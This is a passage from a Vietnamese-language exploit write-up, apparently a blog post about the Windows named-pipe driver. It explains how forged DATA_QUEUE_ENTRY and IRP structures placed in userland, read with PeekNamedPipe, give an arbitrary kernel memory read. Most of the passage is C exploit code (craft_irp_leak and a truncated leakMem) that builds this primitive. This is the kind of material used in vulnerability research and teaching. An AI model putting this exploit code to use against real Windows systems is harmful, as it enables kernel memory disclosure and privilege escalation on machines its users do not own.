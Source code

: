 Vậy là ở hàm `NpReadDataQueue` này sẽ loop cho đến cuối của LIST_ENTRY hoặc là loop cho tới khi đọc đủ được theo yêu cầu của người dùng. Và nếu EntryType là kiểu `Unbuffered` thì nó sẽ đọc data theo địa chỉ của IRP và ngược lại với `Buffered` thì nó sẽ đọc data đang có trong Entry đó

Nhưng có một vấn đề là nếu chúng ta sử dụng hàm `ReadFile` để đọc data thì sau khi đọc hết nó sẽ bị free, điều này sẽ dẫn tới việc khiến cho kernel free vùng userland và tất nhiên sẽ làm chúng ta crash và exploit fail

Vậy thì giải pháp ở đây sẽ là sử dụng hàm `PeekNamedPipe` theo như document của microsoft

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1706730639609/c8717d75-5fe6-4c25-b6f4-e37d8c2f9355.png?auto=compress,format&format=webp)

Vậy thì chúng ta cần phải thiết kế được một Entry ở phía userland như mình đã vẽ bên trên để có thể đọc được tùy ý, tức là `Entry 1 nằm ở kernel sẽ trỏ tới Entry 2 nằm ở Userland`

Copy

Copy

```
//Entry 2
    IRP* my_irp = (IRP*)malloc(sizeof(IRP));
    my_irp->AssociatedIrp = address; // address want to read

    entry = (DATA_QUEUE_ENTRY*)list_entry_user;
    entry->Irp = uint64_t(my_irp);
    entry->EntryType = Unbuffered;
    entry->DataSize = leakSize; // Size of address want to read

```

Như vậy mỗi khi muốn đọc thì chúng ta chỉ cần thay đổi vùng nhớ phía userland là đã thành công rồi

Copy

Copy

```
IRP* craft_irp_leak(BYTE* s, PVOID64 address, ULONG leakSize, ULONG64 list_entry_user) {
    DATA_QUEUE_ENTRY* entry = (DATA_QUEUE_ENTRY*)malloc(sizeof(DATA_QUEUE_ENTRY));
    ZeroMemory(entry, sizeof(DATA_QUEUE_ENTRY));
    //entry 1
    entry->DataSize = offset_leak;
    entry->Blink = entry->Flink = list_entry_user; // list_entry_user is userland
    BYTE* target = s;
    entry->Irp = NULL;
    entry->EntryType = Buffered;
    memcpy(target, entry, sizeof(DATA_QUEUE_ENTRY));
    free(entry);
    //entry 2
    entry = (DATA_QUEUE_ENTRY*)list_entry_user;
    IRP* my_irp = (IRP*)malloc(sizeof(IRP));
    ZeroMemory(entry, sizeof(DATA_QUEUE_ENTRY));
    ZeroMemory(my_irp, sizeof(IRP));
    my_irp->AssociatedIrp = address;  // address want to read
    entry->Irp = uint64_t(my_irp);
    entry->EntryType = Unbuffered;
    entry->DataSize = leakSize; // Size of address want to read
    return my_irp;
}

void leakMem(ULONG64 addr,int len, UCHAR* out) {
    UCHAR* target = (UCHAR*)user_space + 0x1000;
    DWORD nbyteread = 0,remain = 0;
    ZeroMemory(target, 0x2000);
    leakIrp->AssociatedIrp = PVOID64(addr);
    PeekNamedPipe(NamedPipeArray[leakPipe].Read, target, offset_leak + len, &nbyteread, &remain, NULL);
```
